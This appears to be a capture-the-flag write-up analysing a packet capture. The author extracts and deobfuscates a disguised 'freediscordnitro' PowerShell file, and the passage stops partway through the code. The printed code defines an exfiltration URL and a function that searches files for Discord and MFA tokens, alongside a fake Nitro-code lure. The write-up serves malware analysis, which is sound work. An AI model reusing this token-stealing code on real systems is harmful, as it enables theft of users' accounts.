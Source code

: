 For this one again we get a pcap file, which contains HTTP objects we can look into:

![HTTP Objects](https://i.imgur.com/TKtBdJf.png)


Extracting freediscordnitro, we can see the content is obfuscated like we expect a malware would be.


![freediscordnitro](https://i.imgur.com/njhbGkU.png)


working on the content of the file, we can now reverse this long string above, and then decode it to read the first part of the flag

```
    $URL = "http://192.168.116.135:8080/rj1893rj1joijdkajwda"
    
    function Steal {
        param (
            [string]$path
        )
    
        $tokens = @()
    
        try {
            Get-ChildItem -Path $path -File -Recurse -Force | ForEach-Object {
                
                try {
                    $fileContent = Get-Content -Path $_.FullName -Raw -ErrorAction Stop
    
                    foreach ($regex in @('[\w-]{26}\.[\w-]{6}\.[\w-]{25,110}', 'mfa\.[\w-]{80,95}')) {
                        $tokens += $fileContent | Select-String -Pattern $regex -AllMatches | ForEach-Object {
                            $_.Matches.Value
                        }
                    }
                } catch {}
            }
        } catch {}
    
        return $tokens
    }
    
    function GenerateDiscordNitroCodes {
        param (
            [int]$numberOfCodes = 10,
            [int]$codeLength = 16
        )
    
        $chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789'
        $codes = @()
    
        for ($i = 0; $i -lt $numberOfCodes; $i++) {
            $code = -join (1..$codeLength | ForEach-Object { Get-Random -InputObject $chars.ToCharArray() })
            $codes += $code
        }
    
        return $codes
    }
    
    function Get-DiscordUserInfo {
        [CmdletBinding()]
        Param (
```